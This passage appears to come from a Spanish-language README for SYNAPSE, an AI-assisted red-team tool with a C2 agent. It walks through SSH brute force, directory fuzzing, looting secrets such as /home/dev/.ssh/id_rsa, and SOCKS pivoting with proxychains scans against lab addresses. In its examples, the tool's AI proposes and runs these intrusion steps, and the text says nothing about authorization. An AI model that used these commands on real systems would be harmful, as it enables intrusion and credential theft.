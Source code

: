 Dentro del chat, puedes preguntar:
resume los hallazgos.
¿cuál es el host más interesante?
propón un plan de ataque para 10.10.20.55.

### Fase 2: Infiltración y Explotación

La IA te propondrá acciones. Si las autorizas, SYNAPSE las ejecutará.
## Ejemplo de Interacción (Fuzzing):

```bash
[SYNAPSE]: He encontrado un servidor web en http://10.10.20.55:8080. Recomiendo un escaneo de directorios para encontrar un panel de administración.
[PRÓXIMA ACCIÓN RECOMENDADA]: fuzz web-dir -u http://10.10.20.55:8080 -w ./wordlists/common.txt
¿Proceder? (s/n) > s
Ejemplo de Interacción (Fuerza Bruta):
[SYNAPSE]: El escaneo ha revelado un puerto SSH en 10.10.20.70. El siguiente paso lógico es intentar un ataque de fuerza bruta con credenciales comunes.
[PRÓXIMA ACCIÓN RECOMENDADA]: bruteforce ssh -t 10.10.20.70 -U ./wordlists/users.txt -P ./wordlists/passwords.txt
¿Proceder? (s/n) > s
```

### Fase 3: Post-Explotación y Movimiento Lateral

Una vez dentro, el objetivo es expandir tu control.
Caza de Botín (Looting):
Despliega el agente en el objetivo y ordénale que busque secretos.

```Bash
# Comando enviado a través del agente C2
{
  "comando": "loot",
  "args": ["hunt", "-p", "/home", "-m", "Operacion_Quimera"]
}

## La IA analizará los resultados:
[SYNAPSE]: ¡Botín encontrado! Se ha localizado una clave privada SSH en /home/dev/.ssh/id_rsa. Recomiendo usar esta clave para intentar pivotar al host 10.10.20.90, que estaba en la misma subred.
Pivoting con Proxy SOCKS (El Portal):

Esta es la técnica definitiva para dominar la red interna.
Activa el proxy en la máquina comprometida (a través del agente C2):

```Json
{
  "comando": "pivot",
  "args": ["socks", "-p", "9050"]
}

En tu máquina de ataque, configura proxychains (o FoxyProxy en tu navegador) para usar socks5 10.10.20.70 9050.
Ahora, ataca la red interna como si estuvieras dentro:

```Bash
proxychains nmap -sT -p- 10.10.30.0/24
proxychains curl http://intranet.corp.local
```
